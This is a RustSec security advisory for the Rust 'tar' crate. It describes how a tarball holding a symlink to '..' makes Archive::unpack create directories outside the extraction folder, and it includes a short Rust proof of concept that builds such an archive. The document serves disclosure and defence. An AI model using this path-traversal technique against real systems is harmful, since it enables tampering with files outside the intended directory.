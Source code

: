 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = []

[affected]
functions = { "tar::Archive::unpack" = ["< 1.2.3"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This issue was discovered and reported by Martin Michaelis (@mgjm).
